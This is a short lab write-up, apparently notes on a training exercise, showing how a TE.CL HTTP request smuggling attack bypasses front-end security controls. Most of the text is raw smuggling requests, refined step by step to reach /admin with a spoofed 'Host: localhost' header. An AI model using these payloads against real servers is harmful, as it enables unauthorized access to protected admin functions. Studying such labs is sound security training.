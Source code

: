 ### PRACTITIONER Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
2e\r\n
GET /doesntexist HTTP/1.1\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```

Norm req:
```bash
POST / HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
And we send attack, norm reqs and we get back: 404 Not found because there is no `GET /doesntexist` endpoint on the backend server

So we change the attack req: (we change the url to `/admin`)
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
28\r\n
GET /admin HTTP/1.1\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```

And we send attack, norm reqs and we get back Unauthorized, so we add Host: localhost and change the chunk size to 0x39
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
39\r\n
GET /admin HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
```
